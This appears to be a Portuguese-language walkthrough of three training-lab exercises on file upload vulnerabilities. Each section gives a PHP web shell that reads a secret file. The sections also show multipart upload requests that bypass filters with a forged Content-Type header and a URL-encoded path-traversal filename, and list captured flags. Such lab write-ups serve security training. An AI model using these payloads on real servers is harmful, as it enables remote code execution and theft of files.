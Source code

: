 ## File upload vulnerabilities 

### >> 1. Remote code execution via web shell upload
Crie um arqvuio com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens e acesse o arquivo submetido através do link informado.

`Flag: 0sehBXVzLAZHtNFAuMJmIlFDR3UGAx5s`

### >> 2. Web shell upload via Content-Type restriction bypass
Crie um arquivo com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens 

Encaminhe a request para repeater e altera o header de:

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/jpeg

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

e acesse o arquivo submetido através do link informado.

`Flag: iiVfQK3LlDuvm0uskl9M2nHoeSEX4JrA`

### >> 3. Web shell upload via path traversal
Crie um arquivo com o conteudo
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

Submeta o arquivo para upload e acesse pelo navegador
````http

------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fwebshell2.php"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="csrf"

D3cLNSSIkUUvvKdxO0LsCy8ryg6CxhH7
------WebKitFormBoundarywl7b3A4o80gjAjZb--
````
